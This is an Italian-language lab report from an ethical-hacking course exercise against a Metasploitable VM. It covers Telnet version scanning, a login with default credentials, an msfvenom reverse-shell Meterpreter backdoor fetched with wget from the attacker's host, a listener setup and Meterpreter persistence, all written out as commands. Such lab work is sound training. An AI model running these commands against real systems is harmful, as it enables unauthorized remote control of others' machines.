 # 📝 Consegna S7/L2
# Hacking con Metasploit

## 🎯 Obiettivo
L'obiettivo di questa esercitazione è stato esplorare e applicare tecniche di **ethical hacking** utilizzando **Metasploit Framework** per:
1. Identificare e analizzare il servizio **Telnet** tramite il modulo `telnet_version`.
2. Creare una **backdoor personalizzata** con **msfvenom**, compatibile con l'architettura a 32-bit, e trasferirla sul target per ottenere una sessione shell e, opzionalmente, renderla **persistente**.

Questa relazione è scritta in modo chiaro e scorrevole, con l'obiettivo di essere comprensibile anche per chi non ha familiarità con questi strumenti. 🚀

---

## 1. Analisi del servizio Telnet con Metasploit
### 🛠️ Strumenti utilizzati
- **Metasploit Framework (msf6)**
- **Kali Linux**
- **Metasploitable** (target)
- **Nmap** per la scansione delle porte

### 📋 Procedura
1. **Scansione delle porte aperte**: 
   Utilizzando **Nmap**, abbiamo individuato che il servizio **Telnet** è attivo sulla porta **23** del target:
   ```bash
   nmap -p 23 192.168.50.3
   ```
   Questo passaggio è fondamentale per identificare servizi potenzialmente vulnerabili.

2. **Identificazione della versione Telnet**:
   Abbiamo utilizzato il modulo **auxiliary/scanner/telnet/telnet_version** di Metasploit per identificare la versione del servizio Telnet esposto:
   
   ```bash
   msfconsole
   use auxiliary/scanner/telnet/telnet_version
   set RHOSTS 192.168.50.3
   run
   ```
   Questo modulo ci ha fornito informazioni dettagliate sulla versione del servizio Telnet, permettendoci di pianificare eventuali attacchi successivi.

3. **Accesso alla shell Telnet**:
   Utilizzando le credenziali di default del servizio Metasploitable (ad esempio `msfadmin:msfadmin`), abbiamo ottenuto una **shell interattiva** sul target.

---

## 2. Creazione e utilizzo della backdoor
### 🧰 Strumenti utilizzati
- **msfvenom**: Generazione del payload
- **Metasploit Framework**: Configurazione del listener
- **Python HTTP Server**: Trasferimento del file
- **wget**: Download sul target

### 🚀 Creazione della backdoor
Abbiamo scelto di utilizzare **msfvenom** per creare un payload **reverse shell**. La scelta è ricaduta su **linux/x86/meterpreter_reverse_tcp** per i seguenti motivi:
1. **Compatibilità**: Metasploitable gira su architettura a **32-bit** (x86), rendendo necessario generare un payload adatto.
2. **Meterpreter**: Consente un controllo avanzato della macchina target, offrendo più funzionalità rispetto a una semplice shell interattiva.

Il comando utilizzato per generare la backdoor è stato:
```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f elf -o backdoor_ftp.elf
```
- **`-p`**: Payload per Linux con connessione inversa.
- **`LHOST` e `LPORT`**: Indirizzo IP e porta per ricevere la connessione.
- **`-f elf`**: Formato ELF per sistemi Linux.
- **`-o`**: Nome del file di output.

### 📤 Trasferimento della backdoor
Per trasferire il file sul target, abbiamo usato un server HTTP semplice su Kali e **wget** su Metasploitable:

1. **Avvio del server HTTP su Kali**:
   ```bash
   python3 -m http.server 8080
   ```
2. **Download del file sul target**:
   ```bash
   cd /tmp
   wget http://192.168.50.2:8080/backdoor_ftp.elf
   ```

### 🔑 Esecuzione della backdoor
Dopo aver trasferito la backdoor sul target, abbiamo eseguito i seguenti passaggi:
1. **Permessi di esecuzione**:
   ```bash
   chmod +x backdoor_ftp.elf
   ```
2. **Avvio della backdoor**:
   ```bash
   ./backdoor_ftp.elf
   ```

### 📡 Configurazione del listener su Metasploit
Per ricevere la connessione inversa generata dalla backdoor, abbiamo configurato il listener con **multi/handler**:
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter_reverse_tcp
set LHOST 192.168.50.2
set LPORT 4444
exploit
```

### 🎉 Risultato: Sessione Meterpreter
La backdoor ha stabilito con successo una connessione con la nostra macchina Kali, fornendoci una **sessione Meterpreter**. Da qui, abbiamo potuto:
- Navigare nel filesystem (`ls`, `cd`)
- Caricare e scaricare file (`upload`, `download`)
- Ottenere informazioni dettagliate sul sistema (`sysinfo`)
- Eseguire comandi avanzati direttamente sul target

### 🔒 Persistenza (facoltativa)
Per rendere la backdoor persistente sul target, abbiamo utilizzato il modulo **persistence** di Meterpreter:
```bash
run persistence -X -i 5 -p 4444 -r 192.168.50.2
```
- **`-X`**: Installa come servizio di sistema.
- **`-i`**: Intervallo di riconnessione (ogni 5 secondi).
- **`LPORT` e `LHOST`**: Configurazione del listener.

---

## 🏁 Conclusione
Questa esercitazione ha dimostrato come:
1. Identificare la versione di un servizio vulnerabile utilizzando **Metasploit**.
2. Creare una **backdoor personalizzata** compatibile con l'architettura della macchina target.
3. Stabilire una **sessione Meterpreter** per eseguire operazioni avanzate di post-exploitation.

La simulazione è un esempio concreto di **analisi, sfruttamento e consolidamento** dell'accesso a un sistema compromesso, evidenziando l'importanza di proteggere i servizi esposti. 

